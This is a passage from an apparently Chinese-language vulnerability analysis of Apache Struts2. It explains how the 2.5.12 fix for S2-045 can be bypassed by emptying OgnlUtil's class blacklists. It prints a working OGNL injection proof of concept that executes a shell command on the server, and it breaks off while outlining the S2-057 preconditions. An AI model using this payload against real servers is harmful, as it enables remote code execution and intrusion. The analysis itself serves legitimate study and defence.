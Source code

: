 漏洞修复
----

通过版本代码比对发现，Struts2 `2.5.12`版本做了很多改动。但通过调试发现，针对这个漏洞，最关键的修复代码在于将`OgnlUtil`类里的黑名单集合`excludedPackageNames`和`excludedClasses`都由原来的`HashSet`改为不可修改的集合类`Collections$UnmodifiableSet`来替代，从而使得S2-045的exploit失效了。  
如下图所示：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ee94275600fdb8c5bdc6f599c14867ee80523bad.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ee94275600fdb8c5bdc6f599c14867ee80523bad.png)

**但！很遗憾**，这个修复可以被轻易绕过，因为修复后的代码中，`OgnlUtil`类里的`excludedPackageNames`和`excludedClasses`属性，只是它引用的集合对象是一个不可修改的对象，故可通过它们的`setter`方法，将其引用到一个空集合对象即可。

这里直接放结论：将在上面的可回显PoC稍加修改，然后**连续执行两次**，便可在修复后的Struts2 `2.5.12`版本getshell！至于为什么需要执行两次才行，这个留到分析S2-057漏洞时再好好说道。  
修改后的PoC如下：

```php
%{
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):
        (
        (#container=#context['com.opensymphony.xwork2.ActionContext.container']).
        (#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
        (#ognlUtil.setExcludedPackageNames('')).
        (#ognlUtil.setExcludedClasses('')).
        (#context.setMemberAccess(#dm)))).
(#cmd='id').
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds)).
(#p.redirectErrorStream(true)).
(#process=#p.start()).
(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))
}
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8dab4c150c245c662a2a963c9fc77bc33828c186.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8dab4c150c245c662a2a963c9fc77bc33828c186.png)

S2-057
------

官方漏洞公告：<https://cwiki.apache.org/confluence/display/WW/S2-057>

影响版本：`Struts 2.0.4` - `Struts 2.3.34`, `Struts 2.5` - `Struts 2.5.16`

漏洞复现与分析
-------

从漏洞公告可获悉，该漏洞有两个前提条件，如下

- `alwaysSelectFullNamespace`为`true`;
- `struts.xml`文件中，没有对`action`对象的上层(即`package`标签)设置`namespace`属性，或者`namespace`属性使用了通配符。
